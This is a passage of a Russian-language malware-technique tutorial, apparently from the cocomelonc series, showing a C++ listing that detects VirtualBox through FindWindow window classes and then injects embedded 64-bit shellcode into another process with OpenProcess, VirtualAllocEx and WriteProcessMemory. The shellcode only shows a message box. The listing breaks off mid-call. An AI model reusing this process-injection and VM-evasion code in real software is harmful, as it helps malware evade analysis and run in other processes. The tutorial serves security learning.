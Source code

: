 
Как видно, всё работает идеально! :)    

### Анти-VM   

Другой пример использования этой функции - "уход" от виртуальной машины. Дело в том, что некоторые названия окон присутствуют только в виртуальной среде и отсутствуют в обычной хост-ОС.    

Рассмотрим пример:

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
    pid = atoi(argv[1]);
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(ph, rb, my_payload, 
```
